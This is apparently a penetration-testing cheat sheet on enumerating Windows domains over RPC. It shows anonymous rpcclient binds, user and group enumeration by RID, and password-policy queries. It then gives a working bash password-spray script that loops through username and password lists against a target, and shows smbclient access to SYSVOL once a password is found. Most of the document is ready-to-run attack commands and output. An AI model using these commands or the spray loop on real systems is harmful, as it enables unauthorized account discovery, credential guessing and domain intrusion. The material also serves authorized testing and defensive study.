 ###
RPC
###

**Connect to RPC server with an anonymous bind:**

.. code-block:: none

  $ rpcclient -U "" -N <target>

**Enumerate Domain Users**

.. code-block:: none

  rpcclient $> enumdomusers
  user: [Administrator] rid:[0x1f4]
  ...

**Enumerate Domain Groups**

.. code-block:: none

  rpcclient $> enumdomgroups
  group: [Domain Admins] rid:[0x200]
  ...

**Query Group Information**

.. code-block:: none

  rpcclient $> querygroup 0x200
  Group Name:     Domain Admins
  ...

**Query Group Membership**

.. code-block:: none

  rpcclient $> querygroupmem 0x200
  rid:[0x1f4]   attr:[0x7]
  ...

**Query Specific User Information by RID**

.. code-block:: none

  rpcclient $> queryuser 0x1f4
  User name   :   Administrator
  ...

**Get Domain Password Info**

.. code-block:: none

  rpcclient $> getdompwinfo
  min_password_length: 11
  password_properties: 0x00000000

**Get Domain User Password Info**

.. code-block:: none

  rpcclient $> getusrdompwinfo 0x1f4
  min_password_length: 11
      &info.password_properties: 0x4b58bb34 (1264106292)
      ...

Password Spray Attack
=====================

The following script will iterate over usernames and passwords and try to execute "getusername". Watch out for "ACCOUNT_LOCKED" error messages.

.. code-block:: bash

  TARGET=10.10.10.10;
  while read username; do
    while read password; do
      echo -n "[*] user: $username" && rpcclient -U "$username%$password" -c "getusername;quit" $TARGET | grep -v "NT_STATUS_ACCESS_DENIED";
    done < /path/to/passwords.txt
  done < /path/to/usernames.txt

If a password is found, use it with smbclient to explore the SYSVOL:

.. code-block:: none

  $ smbclient -U "username%password" \\\\<target>\\SYSVOL
  Domain=[HOME] OS=[Windows Server 2008]
  ...
  smb: \> ls
  ...
